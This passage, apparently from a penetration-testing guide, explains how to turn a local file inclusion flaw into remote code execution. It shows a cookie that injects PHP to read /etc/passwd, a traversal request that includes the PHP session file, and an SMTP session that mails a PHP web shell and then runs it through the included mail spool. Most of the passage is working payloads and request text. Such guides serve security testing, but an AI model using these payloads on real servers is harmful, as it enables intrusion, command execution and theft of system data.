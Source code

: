 This would result in

```none
Set-Cookie: user=%3C%3Fphp+system%28%22cat+%2Fetc%2Fpasswd%22%29%3B%3F%3E; expires=Mon, 13-Aug-2018 20:40:53 GMT; path=/; httponly
```

Now, the php command can be executed using

```none
POST /upload/? HTTP/1.1
Host: vulnerable.redacted.com
User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded
Content-Length: 141
Connection: close
Upgrade-Insecure-Requests: 1

login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```

The session file could again afterwards be included using the LFI (note that you need to remove the cookie from the request, otherwise it would get overwritten again and the payload would fail)

#### Email Server

If the email server allows you to send email unauthorized and we know the usernames on the system, we probably can utilize it to do remote code execution by using telnet and connecting to port 25

```none
EHLO example.com
VRFY username@example.com
MAIL FROM: pwned@domain.com
RCPT TO: username@example.com
DATA

Subject: Owned
<?php echo system($_REQUEST['cmd']); ?>

.

Mail Queued
```

and as we have LFI, we can read the email by

```none
../../../var/mail/username &cmd=whoami
```

The above would probably differ on the request of your LFI.

## Appendix-II : File Upload
